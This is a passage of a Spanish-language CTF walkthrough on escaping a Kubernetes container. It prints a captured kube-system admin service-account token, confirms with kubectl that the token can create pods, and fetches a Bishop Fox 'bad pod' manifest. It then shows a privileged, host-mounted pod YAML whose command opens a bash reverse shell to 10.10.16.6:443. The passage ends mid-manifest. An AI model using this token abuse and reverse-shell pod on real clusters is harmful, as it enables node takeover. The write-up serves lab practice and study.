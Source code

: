```null
token:      eyJhbGciOiJSUzI1NiIsImtpZCI6InRqSFZ0OThnZENVcDh4SXltTGhfU0hEX3A2UXBhMG03X2pxUVYtMHlrY2cifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLWI0N2Y3Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIzMTc3OGQxNy05MDhkLTRlYzMtOTA1OC0xZTUyMzE4MGIxNGMiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.fka_UUceIJAo3xmFl8RXncWEsZC3WUROw5x6dmgQh_81eam1xyxq_ilIz6Cj6H7v5BjcgIiwsWU9u13veY6dFErOsf1I10nADqZD66VQ24I6TLqFasTpnRHG_ezWK8UuXrZcHBu4Hrih4LAa2rpORm8xRAuNVEmibYNGhj_PNeZ6EWQJw7n87lir2lYcqGEY11kXBRSilRU1gNhWbnKoKReG_OThiS5cCo2ds8KDX6BZwxEpfW4A7fKC-SdLYQq6_i2EzkVoBg8Vk2MlcGhN-0_uerr6rPbSi9faQNoKOZBYYfVHGGM3QDCAk3Du-YtByloBCfTw8XylG9EuTgtgZA
```

```null
root@devnode-deployment-776dbcf7d6-sr6vj:/tmp# ./kbctl auth can-i create pod
no
root@devnode-deployment-776dbcf7d6-sr6vj:/tmp# ./kbctl auth can-i create pod --token eyJhbGciOiJSUzI1NiIsImtpZCI6InRqSFZ0OThnZENVcDh4SXltTGhfU0hEX3A2UXBhMG03X2pxUVYtMHlrY2cifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLWI0N2Y3Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIzMTc3OGQxNy05MDhkLTRlYzMtOTA1OC0xZTUyMzE4MGIxNGMiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.fka_UUceIJAo3xmFl8RXncWEsZC3WUROw5x6dmgQh_81eam1xyxq_ilIz6Cj6H7v5BjcgIiwsWU9u13veY6dFErOsf1I10nADqZD66VQ24I6TLqFasTpnRHG_ezWK8UuXrZcHBu4Hrih4LAa2rpORm8xRAuNVEmibYNGhj_PNeZ6EWQJw7n87lir2lYcqGEY11kXBRSilRU1gNhWbnKoKReG_OThiS5cCo2ds8KDX6BZwxEpfW4A7fKC-SdLYQq6_i2EzkVoBg8Vk2MlcGhN-0_uerr6rPbSi9faQNoKOZBYYfVHGGM3QDCAk3Du-YtByloBCfTw8XylG9EuTgtgZA
yes
```

En este [artículo](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation) explican como crear un Bad POD para escapar del contenedor. Descargo un archivo YAML de ejemplo que se encarga del despliegue del contenedor

```null
wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
```

Para extraer la imagen necesaria para crear el contenedor, se puede una existente en cualquier POD

```null
root@webapp-deployment-9546bc7cb-6r7sq:/tmp# ./kbctl describe pods/devnode-deployment-776dbcf7d6-sr6vj -n dev | grep Image 
    Image:          localhost:5000/node_server
    Image ID:       docker-pullable://localhost:5000/node_server@sha256:e965afd6a7e1ef3093afdfa61a50d8337f73cd65800bdeb4501ddfbc598016f5
```

Modifico el ```pod.yaml``` que se encargue de enviarme la reverse shell

```null
apiVersion: v1
kind: Pod
metadata:
  name: pwned
spec:
  hostNetwork: true
  containers:
  - name: pwned
    image: localhost:5000/node_server
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /root/
      name: noderoot
    command: [ "/bin/bash", "-c" ]
    args: [ "bash -i >& /dev/tcp/10.10.16.6/443 0>&1;" ]
  volumes:
```